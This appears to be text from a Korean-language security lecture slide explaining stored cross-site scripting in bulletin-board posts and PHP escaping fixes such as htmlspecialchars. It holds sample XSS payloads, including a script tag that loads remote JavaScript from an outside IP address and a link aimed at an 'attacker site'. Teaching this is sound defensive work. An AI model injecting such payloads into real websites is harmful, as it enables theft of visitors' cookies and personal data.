

게시판에 새 게시물을 작성하여 등록할 때와 같이 사용자의 입력을 받아 처리하는 웹 프로그램에서 입력 내용에 대해 실행 코드인 스크립트의 태그를 적절히 필터링하지 않을 경우에 악의적인 스크립트가 포함된 게시물을 등록할 수 있어 해당 게시물을 열람하는 일반 사용자의 PC로부터 개인 정보인 쿠키를 유출할 수 있는 등의 피해를 초래할 수 있음
예를 들어 글쓰기 본문에 다음과 같은 스크립트 문장을 입력했을 때 'XSS 취약점 존재' 경고창이 뜨면 스크립트가 수행된 것이므로 취약점이 있는 것이다.
<script>alert(‘ XSS 취약점 존재’) ; < /script>
<script src=“http://205.34.23.45:3000/aa.js”></script>
<A HREF='http://공격자사이트/text.php?str=<script>alert("Merong~") ;</script>'>
< , >와 같은 태그가 &lt;   , &gt;로 치환되어야 함
htmlspecialchars()로 바꾸어야 함
htmlentites()
str_replace(“<“, ”&lt;” ,$str)